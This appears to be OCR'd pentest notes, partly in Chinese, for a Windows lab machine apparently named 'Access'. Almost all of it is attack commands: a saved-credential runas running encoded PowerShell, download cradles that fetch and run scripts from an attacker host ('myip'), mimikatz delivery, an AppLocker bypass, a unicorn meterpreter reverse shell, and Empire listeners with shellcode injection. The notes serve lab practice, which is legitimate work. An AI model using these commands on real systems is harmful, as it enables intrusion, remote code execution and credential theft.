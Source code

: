                 > runas /user:ACCESS\Administrator /savecred "powershell -EncodedCommand <base64 code>"

## JAWS扫描
                cp /opt/JAWS/jaws-enum.ps1 ./jaws.ps1
                > IEX(New-Object Net.WebClient).downloadString('http://myip:8000/jaws.ps1')
                
### 扫描notes
                C:\windows\system32\login.cmd
                FPSensor
                

## mimikatz
                mv /opt/mimikatz/x64/mimikatz.exe ./www/
                > (New-Object Net.WebClient).downloadFile('http://myip:8000/mimikatz.exe', 'mimikatz.exe')
        
### applocker bypass list // 失败
                copy mimikatz.exe C:\windows\system32\spool\drivers\color\

### meterpreter 
                cd /opt/unicorn
                python unicorn.py windows/meterpreter/reverse_https myip 9003
                cp powershell_attack.txt ~/boxes/access/www/msf.ps1
                cp unicorn.rc ~/boxes/access
                msfconsole -r unicorn.rc
                echo -n "IEX(New-Object Net.WebClient).downloadString('http://myip:8000/msf.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

### empire
                cd /opt/Empire/setup
                ./reset.sh
                (Empire) > listeners
                (Empire: listeners) > uselistener
                (Empire: listeners/http) > uselistener http
                (Empire: listeners/http) > set Host http://myip:9004
                (Empire: listeners/http) > set BindIP myip
                (Empire: listeners/http) > set Port 9004
                (Empire: listeners/http) > execute
                (Empire: listeners) > back
                (Empire: listeners) > launcher powershell http
                vi empire.ps1 // 黏贴以上输出内容
                echo -n "IEX(New-Object Net.WebClient).downloadString('http://myip:8000/empire.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
                (Empire: listeners) > uselistener meterpreter
                (Empire: listeners/meterpreter) > set Host http://myip:9003 
                (Empire: listeners/meterpreter) > set Port 9003
                (Empire: listeners/meterpreter) > execute
                (Empire: listeners) > back
                (Empires) > interact xxx
                (Empires: xxx) > injectshellcode meterpreter  
                (Empires: powershell/code_execution/invoke_shellcode) > info
                (Empires: powershell/code_execution/invoke_shellcode) > execute
